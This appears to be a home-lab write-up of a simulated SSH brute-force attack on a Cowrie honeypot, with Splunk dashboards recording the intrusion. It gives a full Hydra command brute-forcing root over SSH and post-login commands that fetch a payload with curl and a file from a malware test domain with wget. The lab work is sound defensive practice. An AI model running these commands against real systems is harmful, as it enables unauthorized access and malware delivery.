



# Brute Force Attack

## The Attack

From Kali (192.168.1.194), I ran Hydra against the honeypot on port 2222 using the `rockyou.txt` wordlist:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.150 -s 2222 -t 4
```

Hydra found 3 passwords: `123456789`, `12345`, and `password`.

After that I SSH'd in and ran some commands to act like an attacker would:

- `whoami` to check what user I am
- `curl http://192.168.1.150:8000/payload.sh` to try pulling a payload (failed)
- `wget http://malware.testcategory.com/test` to download a test file from a known malware domain
- `ls` to look around



## What Splunk Picked Up

On the Splunk dashboard (192.168.1.111), all of this showed up right away. The failed login chart spiked during the brute force and the successful logins chart shows where Cowrie let me in.

The Attack Session Deep Dive table at the bottom logs every command that was run inside the honeypot with timestamps and session IDs. You can see the `whoami`, the `wget`, the `curl`, all of it.



## Attacker Profile

Splunk also builds a profile that ties everything together for one IP. For 192.168.1.194:

- 2 failed logins, 5 successful (fake) logins
- 13 commands run
- Username targeted: `root`
- Full list of every command that was executed



---

Hardening is the next phase [Hardening — UFW & Fail2Ban](Hardening-Cowrie-UFW-Fail2Ban.md)
